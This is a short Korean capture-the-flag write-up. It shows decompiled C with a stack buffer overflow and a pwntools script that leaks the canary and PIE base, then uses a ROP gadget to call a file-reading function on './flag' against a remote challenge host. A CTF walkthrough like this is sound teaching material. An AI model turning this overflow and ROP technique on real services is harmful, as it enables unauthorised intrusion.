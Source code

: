 ```c
unsigned __int64 sub_1324()
{
  __int64 buf[2]; // [rsp+0h] [rbp-210h] BYREF
  char v2[496]; // [rsp+10h] [rbp-200h] BYREF
  unsigned __int64 v3; // [rsp+208h] [rbp-8h]

  v3 = __readfsqword(0x28u);
  printf("input> ");
  buf[0] = 0LL;
  buf[1] = 0LL;
  memset(v2, 0, sizeof(v2));
  read(0, buf, 0x300uLL);
  printf("Your input> ");
  printf("%s", (const char *)buf);
  return v3 - __readfsqword(0x28u);
}
```

open, read, write해주는 함수가 존재했다. 해당 함수를 이용해서 flag파일을 읽으면 될 것으로 판단했다.
```c
ssize_t __fastcall sub_124E(const char *a1)
{
  int fd; // [rsp+1Ch] [rbp-4h]

  fd = open(a1, 0);
  read(fd, &unk_40C0, 0x64uLL);
  return write(1, &unk_40C0, 0x64uLL);
}
```

ROP Gadget중 `mov rdi, rsp ; pop r8 ; ret`를 활용해 rdi 레지스터를 세팅할 수 있었고, sub_124E를 호출해주면 된다.

```py
from pwn import *
import base64

p = remote('hto2024-nlb-fa01ec5dc40a5322.elb.ap-northeast-2.amazonaws.com',5001)
p.recvline()
p.recvline()
data = base64.b64decode(p.recvline().strip())

with open('binary.bin','wb') as f:
    f.write(data)
    e = ELF("./binary.bin")
    idx = ord(e.read(0x0000000000004070, 1))
    canary = e.read(0x0000000000004020+(idx*8), 8)

    pay = b'A'*520 + canary + b'B'*8 + b'\xf2'
    p.send(pay)
    p.recvuntil(b'B'*8)
    
    pie_leak = u64(b'\x00'*1+p.recv(6)[1:]+b'\x00\x00')
    print(hex(pie_leak))
    pie_base = pie_leak - 0x1300
    print(hex(pie_base))

    # 0x00000000000012b4 : mov rdi, rsp ; pop r8 ; ret

    pay2 = b'A'*520 + canary + b'B'*8 + p64(pie_base + 0x00000000000012b4) + b'./flag\x00\x00' + p64(pie_base+0x124E)

    p.send(pay2)

p.interactive()
```
